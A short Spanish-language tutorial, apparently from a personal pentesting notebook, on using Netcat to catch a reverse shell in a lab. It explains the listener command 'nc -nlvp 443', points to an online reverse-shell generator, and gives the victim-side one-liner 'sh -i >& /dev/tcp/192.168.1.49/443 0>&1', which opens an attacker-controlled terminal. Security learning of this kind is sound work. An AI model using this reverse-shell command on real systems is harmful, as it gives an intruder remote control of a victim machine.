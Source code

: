 # Netcat para entablar Reverse Shell

¿Que es Netcat?: Netcat es una herramienta de red que permite abrir puertos TCP/UDP en un HOST, asociar una shell a un puerto específico y forzar conexiones UDP/TCP. Es útil tanto para ataques como para auditores de seguridad de re

<aside>
💡

https://www.revshells.com - Este es un generador de shell inversa en línea que permite a cualquier persona configurar sus direcciones IP, puertos y shell de elección para sus payloads (cargas útiles) .

</aside>

![image.png](image.png)

Ponemos el siguiente comando en nuestra maquina atacante **nc -nlvp 443** . Con esto ponemos el Netcat en escucha en el puerto 443.

**`nc -nlvp 443`**

<aside>
💡

**`nc`**: Invoca **la herramienta** Netcat.

**`-n`**: **Desactiva la resolución de nombres DNS**. Esto significa que solo se usarán direcciones IP sin intentar resolver nombres de dominio.

`-**l**`: **Activa el modo de escucha** (listen), lo que **convierte Netcat en un servidor que espera conexiones entrantes**.

`-**v**`: Habilita el modo "verboso" (verbose), proporcionando **información** detallada **sobre las conexiones**.

`-**p 443**`: Especifica el **puerto** en el **que** Netcat **estará escuchando**, en este caso, el puerto 443 (comúnmente utilizado por HTTPS).

</aside>

![image.png](9d3054ff-5a86-428a-bcc8-294f30a5ddb7.png)

Si conseguimos acceso a muestra maquina victima debemos inyectar el comando que habíamos conseguido con el reverse shell generator. 

`sh -i >& /dev/tcp/192.168.1.49/443 0>&1`

![image.png](image%201.png)

Nuestra maquina atacante Kali reacciona a la señal de la maquina victima, originado que tengamos abierta una terminal interactiva sobre la maquina victima.

![image.png](image%202.png)

![image.png](image%203.png)